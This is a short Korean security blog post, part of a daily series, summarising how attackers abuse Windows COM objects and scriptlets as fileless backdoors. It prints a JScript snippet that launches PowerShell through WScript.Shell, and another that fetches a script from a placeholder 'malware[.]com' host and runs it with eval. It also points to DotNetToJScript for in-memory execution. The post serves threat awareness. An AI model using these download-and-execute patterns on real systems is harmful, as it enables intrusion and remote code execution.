 ```yaml
---
title: "[하루한줄] COM 객체를 활용한 백도어"
author: idioth
tags: [idioth, windows, com, backdoor, malware, jscript, vbscript]
categories: [1day1line]
date: 2021-05-31 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[COM Objects P.1: The Hidden Backdoor in Your System](https://medium.com/maltrak/com-objects-p-1-the-hidden-backdoor-in-your-system-947ac4285e85)



## Target

- Windows

## Explain

지난 몇 년간, 해커들은 COM Object을 통해 fileless attack, defense 우회, 화이트리스트를 우회하고 RPC 프로토콜을 사용하여 내부에 침투하기도 했습니다. 해커들이 COM 객체를 통해 공격을 진행하는 방법은 다음과 같습니다.

먼저 Initial Access를 위한 COM 객체를 생성합니다. 내부 네트워크에 접근하기 위해서 페이로드를 전송할 수 있어야 합니다. COM Scriptlet을 통해 악성 자바스크립트나 VBScript를 다운로드하고 실행할 수 있습니다.

COM을 활용하여 악성 스크립트를 다운로드하고 실행하는 Scriptlet 코드는 다음과 같이 구성됩니다. 첫번째로 Shell에 접근합니다.

```xml
<script language="JScript">
<![CDATA[
var malware = new ActiveXObject("WScript.Shell").Run("powershell.exe ...");
]]>
</script>
```

`ActiveXObject`를 통해 `WScript.Shell`을 호출하여 명령을 실행할 수 있습니다.  그 다음 네트워크 통신을 통해 악성 스크립트 파일을 다운로드하고 실행합니다.

```js
net = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
net.Open("GET", "http://malware[.]com/malware.js", false);
net.Send();
js = net.ResponseText;
eval(js);
```

.NET의 Serialization을 활용하여 위의 작업을 수행할 수 있습니다. `System.Runtime.Serialization.Formatters.Binary.BinaryFormatters`를 `ActiveXObject`로 호출하면 객체를 base64로 인코딩할 수 있고 메모리에서 디코딩되어 메인 코드를 실행할 수 있습니다. 이는 [DotNetToJScript](https://github.com/tyranid/DotNetToJScript)를 통해 쉽게 활용할 수 있습니다.
